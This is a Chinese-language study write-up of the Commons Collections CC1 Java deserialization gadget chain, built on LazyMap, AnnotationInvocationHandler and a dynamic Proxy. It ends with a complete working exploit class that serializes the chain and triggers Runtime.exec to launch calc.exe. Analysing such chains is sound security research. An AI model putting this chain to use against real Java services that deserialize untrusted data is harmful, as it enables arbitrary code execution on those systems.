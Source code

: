 ### CC1

因为上次使用的CC1链利用的类是`TransformedMap`这次使用另一个`Map`

![img](img/1657262479222-24121b6f-fba4-4001-9a03-74fba5fc9eea.png)

然后这次使用的是ysoserial项目中的payload

![img](img/1657262555664-ff49526c-b1d2-4d8c-ae40-201412edcc0d.png)

从`LazyMap.get()`后面的过程，就是调用`transform()`方法的过程跟上一个文章分析是一样的，就不多写了，这里只分析前面的部分。

上面的同样调用了`AnnotationinvocationHandler`这个类，但是这里的链子当中，`AnnotationinvocationHandler`调用了两次，一次是调用了其中的`readObject()`方法，应该是用来反序列化调用。还有一个时`invoke()`方法调用`LazyMap`中的`get()`方法。

看一下在`LazyMap`中的这个`get()`方法

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
    }
```

进入就是if判断这个map集合中是否存在这个指定的key，如果存在就跳过if，直接`return map.get(key)`

如果没有key，那么会创建一个key，也就是只要执行到`get()`方法的时候，找不到这个key就可以成功进入执行`transform()`方法。现在就是找哪里调用了`get()`方法

根据payload中可以看到是在`AnnotationinvocationHandler`类中的`invoke()`方法

![img](img/1657264897514-6ce4b8f6-3d1d-4d36-b3f0-3659947a1d9e.png)

且这个`memberValues`是可控的，`private final Map<String, Object> memberValues;`

![img](img/1657265262456-85d96977-88ae-4a4e-bd0c-ad2618433488.png)

然后就是这里来调用`get()`方法，

现在继续向上，怎么才能调用`invoke()`方法，

看流程是`Map(Proxy).entrySet`，这里要去了解一下关于代理的知识点了。

Proxy是在使用时会自动调用`InvocationHandler`的`invoke()`方法的。

```java
Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);
```

关于`newProxyInstance()`的三个参数，第一个：使用`LazyMap.class.getClassLoader()`加载器去加载代理对象

第二个参数：动态代理类需要实现的接口

第三个参数：h动态代理方法在执行时，会调用h里面的`invoke`方法去执行

`invoke()`方法也调用了，因为还是要调用`AnnotationInvocationHandler`中的`readObject()`，所以还是跟上一条链子一样，创建一个对象，最终要序列化的就是它。

```java
annotationInvocationHandler.newInstance(Override.class, mapProxy);
```

这次对注解没有要求，只需要传一个就可以。因为这次的不需要进入if判断，调用不用进入判断。所以是无所谓了。

![img](img/1657277125043-a30595d7-3b4d-426f-bf9d-068aef950e55.png)

完整攻击代码

```java
package CC6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        // chainedTransformer.transform(Runtime.class);
        HashMap map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandler = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandler.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationHandler.newInstance(Override.class, lazyMap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, h);

        Object o = annotationInvocationHandler.newInstance(Override.class, mapProxy);
        serialize(o);
        unserialize("cc6.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```